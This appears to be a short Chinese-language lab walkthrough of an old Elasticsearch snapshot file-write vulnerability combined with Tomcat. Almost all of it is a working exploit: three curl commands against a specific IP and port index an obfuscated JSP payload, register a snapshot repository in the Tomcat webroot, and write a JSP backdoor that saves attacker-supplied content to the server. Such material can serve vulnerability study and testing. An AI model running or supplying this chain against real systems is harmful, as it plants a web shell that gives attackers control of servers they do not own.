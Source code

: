 <img src="图片\Snipaste_2023-02-09_10-59-21.png" alt="Snipaste_2023-02-09_10-59-21" style="zoom:80%;" />

**-Elasticsearch 文件写入 wooyun_2015_110216**

9200一般为ElasticSearch的常用端口，此漏洞环境需要与中间件使用

1、发现9200端口存在elasticsearch页面，8080存在tomcat目录

2、利用ElasticSearch写入后门到/usr/local/tomcat/webapps/wwwroot/

```
curl -XPOST http://123.58.236.76:31556/yz.jsp/yz.jsp/1 -d'

{"<%new java.io.RandomAccessFile(application.getRealPath(new String(new byte[]{47,116,101,115,116,46,106,115,112})),new String(new byte[]{114,119})).write(request.getParameter(new String(new byte[]{102})).getBytes());%>":"test"}

'
curl -XPUT 'http://123.58.236.76:31556/_snapshot/yz.jsp' -d '{
   "type": "fs",

     "settings": {

          "location": "/usr/local/tomcat/webapps/wwwroot/",

          "compress": false

      }

}'
curl -XPUT "http://123.58.236.76:31556/_snapshot/yz.jsp/yz.jsp" -d '{

     "indices": "yz.jsp",

     "ignore_unavailable": "true",

    "include_global_state": false

}'
```
